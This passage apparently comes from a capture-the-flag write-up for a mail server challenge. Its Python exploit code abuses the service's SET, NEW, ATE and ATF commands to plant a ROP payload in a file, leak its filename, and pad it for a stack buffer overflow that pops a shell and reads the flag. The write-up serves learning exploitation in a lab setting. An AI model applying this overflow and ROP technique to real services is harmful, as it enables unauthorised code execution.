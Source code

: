 ```python
# And use our regular old primitives to get it to read in the payload

send_event(build_packet(b"SET", f"/home/mailserver/data/{username}".encode()))
send_event(b"NEW" + b"34", payload) # Basically the data written will be NEW34|/tmp/mail/content/FILENAME . 34| will be sscanf'd to get the length as 34 and then the data will be read in as the rest
send_event(b"ATE" + b"001")
```
I use the trick we used previously in the Getting Leaks chapter to add a pipe in my mailfile so that it becomes valid. The mailfile now reads `FILENAMEBEINGLEAKED|` So the content is empty. This'll give an error, but not a game-breaking one, and the subject will be printed anyway.
```python
filname, _ = read()
log.success(f"Leaked filename: {filname.decode()}")
```
## Exploiting the BOF: Getting the payload onto the stack
There is now a file that we know the filepath of containing 4 bytes of data and then the ROP payload. This file needs to become a file containing 4 bytes of data corresponding to the length of the rest, some padding, and then the ROP payload. Everything that needs to be added is alphanumeric, so old methods will do. ATF finally becomes useful here - we want to add data to the front of the file, not after it.

```python
# Now ATF is actually useful. We have 4 bytes + payload. We want evil size + 0x804 filler bytes + 4 bytes + payload
# Unfortunately we cannot write that many bytes in the subject at a time. No worry, it's only a few iterations.

send_event(build_packet(b"SET", filname))
to_add = str(0x808 + len(payload)).zfill(4).encode() + b"A"*0x804

chunks = []
for i in range(0, len(to_add), 200):
    chunks.append(to_add[i:i+200])

for chunk in chunks[::-1]:
    send_event(build_packet(b"ATF", chunk))

mail_file(username, filname)
```

I put it in chunks of 200 for extra safety, remembering that the chunks need to be added in reverse order. Finally, I forge a mail file where the content is in whatever path I leaked. All that remains is to read the email and a shell will be popped!

They hinted that the flag filename will be weird as file read primitive is not enough so asterisk is needed.
```python
p.sendlineafter("> ", "4")
p.clean(0.2)
p.sendline("cd /home/mailclient")
p.sendline("cat flag*")
```
